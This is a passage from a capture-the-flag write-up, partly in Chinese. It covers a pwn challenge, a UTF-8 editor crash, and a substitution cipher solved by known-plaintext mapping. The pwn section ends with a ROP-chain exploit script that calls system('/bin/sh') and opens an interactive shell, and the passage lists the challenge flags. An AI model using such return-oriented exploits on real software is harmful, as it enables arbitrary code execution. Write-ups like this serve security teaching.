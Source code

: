 ```python

payload = padding
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(ret)
payload += p64(system)
print(payload)
super_write(payload)
p.sendline(b'c')
p.interactive()

```

**Flag: `AIS3{ma4a4a4aGiCian}`**


### UTF-8 Editor — Crash

1. 輸入 `你ㄏ`，讓 `ㄏ` 注音組字的階段，然後刪掉 `你ㄏ`，會留下一個類似空白的東西，輸入進去，然後 print 就解了。
2. 猜測應該是我的環境有一些編碼問題之類的，肯定不是 intended XD

**Flag: `AIS3{unsigned_intergers_are_so_cool}`**

## Crypto

### SC

1. `cipher.py` 建立隨機的 substitution cipher，然後給我們替換過後的 `cipher.py.enc` 和 `flag.txt.enc`。因為 `cipher.py.enc` 有足夠多字元，因此我可以用它重建 substitution 的 mapping，然後把 `flag.txt.enc` decrypt 回來。

```python
import string

charset = list(string.ascii_lowercase + string.ascii_uppercase + string.digits)
enc_charset = [None for _ in range(len(charset))]

print(charset)

txt = open('./cipher.py', 'r').read()
enc = open('./cipher.py.enc', 'r').read()

for i in range(len(txt)):
    c = txt[i]
    enc_c = enc[i]
    if c in charset:
        idx = charset.index(c)
        enc_charset[idx] = enc_c


charset = ''.join(charset)
enc_charset = ''.join([x if x is not None else '@' for x in enc_charset])

T = str.maketrans(enc_charset, charset)

with open('./flag.txt.enc', 'r') as f:
    enc_flag = f.read()
print(enc_flag.translate(T))
```
